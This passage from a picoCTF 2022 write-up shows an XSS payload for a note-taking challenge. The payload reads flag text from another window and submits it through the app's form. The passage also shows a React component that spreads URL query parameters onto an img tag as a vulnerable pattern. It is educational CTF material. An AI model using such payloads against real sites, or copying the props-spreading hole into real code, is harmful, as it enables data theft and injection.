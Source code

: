 The XSS part is written like this:

``` html
<script>
  var flagWin = window.open('xxx:abdef', 'flag')
  setTimeout(() => {
    var flag = flagWin.document.body.innerText
    var win = window.open('/new');
    setTimeout(() => {
      win.document.querySelector('textarea[name=content]').value = flag;
      win.document.querySelector('form').submit()
    }, 2000)
  }, 2000)
</script>
```

A similar solution was used in this article: https://github.com/Scoder12/ctf/blob/main/PicoCTF%202022/web_noted.md

## Live Art

Link: https://play.picoctf.org/practice/challenge/277?page=1&search=live

I haven't reproduced this problem myself yet, and the solutions are all from this article [picoCTF 2022 WriteUps](https://blog.maple3142.net/2022/03/29/picoctf-2022-writeups/#live-art). I'll briefly summarize it. There are two main vulnerabilities.

1. Confusion of props caused by improper component switching
2. Attacking React using the `is` attribute

The second point is particularly interesting, so I'll talk about it here.

What's wrong with the React app below?

``` js
export default function App() {
  const params = new URLSearchParams(location.search);
  let obj = {};

  params.forEach(function (value, key) {
    obj[key] = value;
  });

  return (
    <div className="App">
      <h1>Demo</h1>
      <img {...obj} />
    </div>
  );
}
```

Here, we just turn the query string on the address bar into an object and pass it to img. The default usage of `URLSearchParams` does not support arrays and objects, so it is impossible to generate `dangerouslySetInnerHTML: { __html: '..'}`.
